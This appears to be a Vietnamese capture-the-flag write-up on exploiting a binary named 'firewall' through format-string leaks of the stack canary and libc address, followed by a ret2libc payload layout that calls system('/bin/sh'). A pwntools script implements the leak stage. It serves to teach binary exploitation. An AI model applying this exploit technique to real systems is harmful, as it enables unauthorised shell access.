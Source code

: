 Và địa chỉ cùa hàm này cũng nằm trong range địa chỉ của thư viện, nên ta sẽ `leak` địa chỉ của hàm này để tính address base

Vì địa chỉ của ` <__libc_start_main+234>` là đỉa chỉ trả về của hàm `main` nên sẽ là `rbp+8` và cách `canary` là `16` bytes là bằng `2` offset format string nên offset của return address main sẽ là `43`

Chuỗi format string để leak offset sẽ là `%43$p`

Tuy nhiên địa chỉ được leak sẽ là địa chỉ của ` <__libc_start_main+234>` nến địa chỉ của hàm `__libc_start_main` sẽ là `leak_address-234`

### Ret2lib

Sau khi có địa chỉ của hàm `__libc_start_main` ta sẽ load thư viện lên sau đó lấy địa chỉ leak được trừ cho địa chỉ của offset trong file thư viện sẽ được `lib base address`

Từ lib base address ta sẽ tính được địa chỉ thực của các thành phần như `system,pop_rdi_ret,"/bin/sh"`


payload = `'ký tự padding' * [khoảng cách từ biến nhập vào tới vị trí của canary] + [giá trị của canary] + 'ký tự padding'*[khoảng cách từ canary tới địa chỉ trả về (16)] + [pop_rdi_ret để truyền tham số cho hàm system] + b'/bin/sh' (tham số của system để gọi shell) + [địa chỉ của system]`



### Script python

Bài này exploit return address của hàm `send` bởi vì trong hàm `main` là vòng lặp `while` nên khó thoát vòng lặp để return hàm và đặc biệt thì do `canary` được sinh ra khi executing cho nên canary của các hàm sẽ giống nhau, dẫn đến leak canary của hàm `main` cũng sẽ giống với `canary` của hàm `send`

Và trong hàm `send` có một đoạn code nhỏ để check trong chuỗi có các ký tự (`A,B,C,D,E,F`) nếu chuỗi nhập vào nằm trong các ký tự này sẽ bị thoát chương trình, Nên ký tự để padding sẽ phải khác các ký tự này



```python 
from pwn import *

elf = ELF('./firewall')

libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')

rop = ROP(libc)

p = process('./firewall')

fmt_str_leak_canary = '%41$llp'

# leak return address of main ->  <__libc_start_main+234>
fmt_str_leak_base_addr = '%43$llp'

p.recv()
p.sendline(fmt_str_leak_base_addr)

p.recvuntil('[x]~> ')
addr_base = p.recvline()

addr_base = int(addr_base.strip(), 16) - 234

print("Leak address of __libc_start_main: ", hex(addr_base))

offset_addr = addr_base - libc.symbols['__libc_start_main']

print('Offset lib: ', hex(offset_addr))

```